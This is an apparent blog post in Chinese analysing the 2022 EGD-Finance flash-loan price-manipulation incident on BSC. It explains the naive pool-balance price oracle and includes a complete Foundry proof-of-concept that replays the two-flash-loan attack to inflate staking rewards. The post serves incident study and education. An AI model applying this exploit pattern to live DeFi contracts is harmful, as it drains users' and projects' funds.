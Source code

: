 ```yaml
---
layout: post
category: attack_events
---
```

# EGD-Finance@flashloan@priceManipulation

## 事件背景

又有一个项目被黑客用闪电贷进行价格操纵

![image-20230909123043529](10.EGD-Finance@flashloan@priceManipulation/image-20230909123043529.png)

- 时间：2022.08.07
- 损失金额：36,044 USDT（$36,044）

## 交易

- 漏洞合约地址：[0x34bd6dba456bc31c2b3393e499fa10bed32a9370](https://bscscan.com/address/0x34bd6dba456bc31c2b3393e499fa10bed32a9370)
- 质押，攻击前准备hash：[0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8](https://bscscan.com/tx/0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8)
- 闪电贷攻击hash：[0x50da0b1b6e34bce59769157df769eb45fa11efc7d0e292900d6b0a86ae66a2b3](https://bscscan.com/tx/0x50da0b1b6e34bce59769157df769eb45fa11efc7d0e292900d6b0a86ae66a2b3)
- 池子合约地址：[0xa361433E409Adac1f87CDF133127585F8a93c67d](https://bscscan.com/address/0xa361433e409adac1f87cdf133127585f8a93c67d)
- 攻击合约地址：[0xc30808d9373093fbfcec9e026457c6a9dab706a7](https://bscscan.com/address/0xc30808d9373093fbfcec9e026457c6a9dab706a7)
- 黑客EOA地址：[0xee0221D76504Aec40f63ad7e36855EEbF5eA5EDd](https://bscscan.com/address/0xee0221d76504aec40f63ad7e36855eebf5ea5edd)

## 资金流向

![image-20230909123406260](10.EGD-Finance@flashloan@priceManipulation/image-20230909123406260.png)

## 攻击过程

攻击前准备：2022-08-07 23:14:52 (UTC) 

![image-20230909132206729](10.EGD-Finance@flashloan@priceManipulation/image-20230909132206729.png)

发起攻击：2022-08-07 23:15:46 (UTC)

![image-20230909133848822](10.EGD-Finance@flashloan@priceManipulation/image-20230909133848822.png)

## 攻击详细分析

从攻击过程可以知道：先是stake一笔钱，然后通过两次闪电贷借出池子中的`BSC-USD`，然后调用`claimAllReward()`获取质押的奖励。那么核心问题就是通过闪电贷完成了价格操纵，因此我们来查看一下获得价格的代码：

```solidity
    function getEGDPrice() public view returns (uint){
        uint balance1 = EGD.balanceOf(pair);
        uint balance2 = U.balanceOf(pair);
        return (balance2 * 1e18 / balance1);
    }
```

我们可以发现，EGD的价格只是简单的通过除法计算：`池子中的BSC-USD数量 / 池子中的EGD的数量`。如果通过闪电贷在池子中借走大量的BSC-USD，就会使得EGD的价格急剧下降，反之急剧上升，从而操纵价格。

既然存在价格操纵的漏洞，那么就可以找一下哪里可以利用此漏洞从而获利。黑客找到了这个质押然后获取利润的`claimAllReward()`函数，从这个方法可以看出，利润是给EGD代币，并且利润的计算是用`利润因子/EGD价格`，并且限制比较少（比如质押一定的时间，不能太短时间内就取款，等等）。

![image-20230909135040726](10.EGD-Finance@flashloan@priceManipulation/image-20230909135040726.png)

因此，可以操纵价格，使得EGD价格急剧下降，从而使得利润`rew`变大从而获利，是典型的闪电贷操纵价格的攻击方式。

## 复现

[GitHub](https://github.com/chen4903/BlockChainPoC/tree/master)

```solidity
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

contract ContractTest is Test {

    // 两次闪电贷分别借款金额
    uint256 constant FLASHLOANAMOUNT_01 = 2000 * 1e18;
    uint256 FLASHLOANAMOUNT_02;

    IERC20 public EGD = IERC20(0x202b233735bF743FA31abb8f71e641970161bF98);
    IERC20 public BSC_USD = IERC20(0x55d398326f99059fF775485246999027B3197955);

    IPancakeRouter public router = IPancakeRouter(payable(0x10ED43C718714eb63d5aA57B78B54704E256024E));
    IPancakePair public pair_wbnbUSD = IPancakePair(0x16b9a82891338f9bA80E2D6970FddA79D1eb0daE);
    IPancakePair public pair_egdUSD = IPancakePair(0xa361433E409Adac1f87CDF133127585F8a93c67d);

    IEGDFinance public EGDFinance = IEGDFinance(0x34Bd6Dba456Bc31c2b3393e499fa10bED32a9370);
    bool public countFlashloan = false; // 用于控制两次不同的闪电贷回调函数

    function setUp() public {
        vm.createSelectFork("bsc", 20_245_521); // 黑客第一笔交易是进行stake，在20_245_522

        vm.label(address(EGD), "EGD");
        vm.label(address(BSC_USD), "BSC_USD");
        vm.label(address(router), "router");
        vm.label(address(pair_wbnbUSD), "pair_wbnbUSD");
        vm.label(address(pair_egdUSD), "pair_egdUSD");
        vm.label(address(EGDFinance), "EGDFinance");
    }

    function testExploit() public {

        // 做好准备工作: 授权
        EGD.approve(address(router), ~uint256(0));
        BSC_USD.approve(address(router), ~uint256(0));
        EGD.approve(address(EGDFinance), ~uint256(0));
        BSC_USD.approve(address(EGDFinance), ~uint256(0));

        // 攻击前准备：质押stake
        console.log("[before attack]");
        console.log("   stake 100 ether");
        deal(address(BSC_USD), address(this), 100 ether);
        EGDFinance.bond(address(0x659b136c49Da3D9ac48682D02F7BD8806184e218));
        EGDFinance.stake(100 ether);

        console.log();
        console.log("after 10 seconds");
        // 质押和获取利润一般不可以在同一个交易当中
        // 注意：获取的利润和时间有关系，时间越长，获取的利润就越多。
        //       但是EGDFinance在池子中的EGD余额是有限的，你的利润太多，取完了就会报错。
        //       因此，质押的数量和时间是有讲究的，否则会报错说余额不够。
        //       这里我们选择质押100ETH，并且质押10秒
        vm.warp(block.timestamp + 10);
        console.log();

        console.log("[start attack]");
        emit log_named_decimal_uint("   [INFO] attackContract BSC-USD Balance", IERC20(BSC_USD).balanceOf(address(this)), 18);
        emit log_named_decimal_uint("   [INFO] EGD/BSC-USD Price before price manipulation", IEGDFinance(EGDFinance).getEGDPrice(), 18);
        console.log("   Flashloan[1] : borrow 2,000 BSC-USD from BSC-USD/WBNB pool");
        
        // 发起攻击
        // 我们闪电贷借款2000个BSC-USD，跟攻击事件的一样
        pair_wbnbUSD.swap(FLASHLOANAMOUNT_01, 0, address(this), new bytes(1));
        console.log("   Flashloan[1] payback success");

        emit log_named_decimal_uint("   [INFO] attackContract BSC-USD Balance", IERC20(BSC_USD).balanceOf(address(this)), 18);

        IERC20(BSC_USD).transfer(msg.sender, IERC20(BSC_USD).balanceOf(address(this)));        
    }

    function pancakeCall(address, uint256, uint256, bytes calldata) external{
        if(countFlashloan == false){
            console.log("       borrow BSC-USD, the price of BSC-USD decrease");
            countFlashloan = true;

            // 第二次闪电贷：借出池子的99.99999925%，好像是说无法借出全部，否则会报流动性余额啥的异常, 如果借少了导致获利减少，不够还款闪电贷
            FLASHLOANAMOUNT_02 = IERC20(BSC_USD).balanceOf(address(pair_egdUSD)) * 9_999_999_925 / 10_000_000_000;
            // FLASHLOANAMOUNT_02 = IERC20(BSC_USD).balanceOf(address(pair_egdUSD)) * 90 / 100;
            console.log("       Flashloan[2] : borrow 99.99999925% BSC-USD of EGD/BSC-USD pool");
            pair_egdUSD.swap(0, FLASHLOANAMOUNT_02, address(this), new bytes(1));
            console.log("       Flashloan[2] payback success");

            address[] memory path = new address[](2);
            path[0] = address(EGD);
            path[1] = address(BSC_USD);
            console.log("       swap: EGD => BSC-USD");
            router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
                IERC20(EGD).balanceOf(address(this)), 1, path, address(this), block.timestamp
            );

            // 手续费是至少大于0.25%，我们选择0.26%。如果还太多，我们攻击所得的余额不够也会报错，因此要控制好数量
            uint256 swapfee = (FLASHLOANAMOUNT_01 * 10_000 / 9974) - FLASHLOANAMOUNT_01;
            BSC_USD.transfer(address(pair_wbnbUSD), FLASHLOANAMOUNT_01 + swapfee);
        }else{
            console.log("           borrow BSC-USD, the price of BSC-USD decrease again");
            emit log_named_decimal_uint("           [INFO] EGD/BSC-USD Price after price manipulation", IEGDFinance(EGDFinance).getEGDPrice(), 18);

            console.log("           Claim all EGD Token reward from EGD Finance contract");
            EGDFinance.claimAllReward();

            emit log_named_decimal_uint("           [INFO] Get reward (EGD token)", IERC20(EGD).balanceOf(address(this)), 18);
            
            // 手续费是至少大于0.25%，我们选择0.26%。如果还太多，我们攻击所得的余额不够也会报错，因此要控制好数量
            uint256 swapfee = (FLASHLOANAMOUNT_02 * 10_000 / 9974) - FLASHLOANAMOUNT_02;
            BSC_USD.transfer(address(pair_egdUSD), FLASHLOANAMOUNT_02 + swapfee);
        }
    } 
}
```

## 建议

- 质押之后，应该等一段时间才能领取利润
- 价格计算的规则太简单，被操控
